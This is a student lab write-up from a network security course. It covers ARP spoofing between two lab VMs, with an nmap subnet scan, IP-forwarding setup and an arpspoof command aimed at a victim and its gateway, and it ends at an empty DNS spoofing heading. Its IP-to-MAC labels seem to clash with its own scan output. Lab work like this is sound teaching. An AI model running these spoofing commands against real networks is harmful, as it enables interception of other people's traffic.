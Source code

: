 ```yaml
---
title: A&D of Network Security - Lab 4(ARP & DNS SPOOFING)
tags: [NTU, NTU_PADNS]

category: "Security > Course > NTU PADNS"
---
```


# A&D of Network Security - Lab 4(ARP & DNS SPOOFING)
###### tags: `Practicum of A&D of NS` `NTU`

## Background
[ARP Spoofing at `1:15:00`](https://youtu.be/ha4w30V2cLM?si=eK2wwkqROck5n3SY&t=4497)

## ARP SPOOFING
1. Setting 2 VMs' network interface as Bridged adapter
    :::danger
    You supposed to use your own network instead of public network
    :::
2. Checking IP
![](https://i.imgur.com/V1CTmtr.png)

    ![](https://i.imgur.com/i6RUqmM.png)
And check the victim gateway by `nmap`
    ```bash!
    $ sudo nmap -sP 192.168.43.0/24
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-19 10:46 EDT
    Nmap scan report for DESKTOP-D0UCTM3 (192.168.43.56)
    Host is up (0.00020s latency).
    MAC Address: 68:54:5A:DC:03:57 (Intel Corporate)
    Nmap scan report for 192.168.43.66
    Host is up (0.010s latency).
    MAC Address: D4:38:9C:87:2F:C6 (Sony)
    Nmap scan report for kali (192.168.43.222)
    Host is up (0.00040s latency).
    MAC Address: 08:00:27:B1:9D:67 (Oracle VirtualBox virtual NIC)
    Nmap scan report for 192.168.43.78
    Host is up.
    Nmap done: 256 IP addresses (4 hosts up) scanned in 6.13 seconds
    ```
    :::info
    Victim VM $\to$ `192.168.43.222` / MAC $\to$ `08:00:27:F7:12:7A`
    Attacker VM $\to$ `192.168.43.78` / MAC $\to$ `08:00:27:B1:9D:67`
    Default Gateway $\to$ `192.168.43.66`
    :::
    

3. Open NAT Port Forwarding
* In Attacker VM
    ```bash!
    $ sudo su
    $ echo 1 > /proc/sys/net/ipv4/ip_forward
    $ exit
    $ cat /proc/sys/net/ipv4/ip_forward
    1
    ```
* In Victim VM
    ```bash
    $ arp -a
    ? (192.168.43.78) at 08:00:27:f7:12:7a [ether] on eth0
    DESKTOP-D0UCTM3 (192.168.43.56) at 68:54:5a:dc:03:57 [ether] on eth0
    DESKTOP-D0UCTM3 (192.168.43.56) at 68:54:5a:dc:03:57 [ether] on eth0
    ```
4. Start to attack
    ```bash
    $ sudo arpspoof -i eth0 -t 192.168.43.222 192.168.43.66
    // sudo arpspoof -i {網卡介面} -t {攻擊目標 IP} {Gateway IP}
    ```
5. Result
![](https://i.imgur.com/46xo2IZ.png)

    ![](https://i.imgur.com/2CG3iER.png)

    ![](https://i.imgur.com/qkkrFfy.png)


### Problem & Solved
:::info
If you can not install `dsniff`, you may update and upgrade the whole system with command `sudo apt-get update; sudo apt-get upgrade`(It may take lot's of time to finish the work)
:::

## DNS SPOOFING
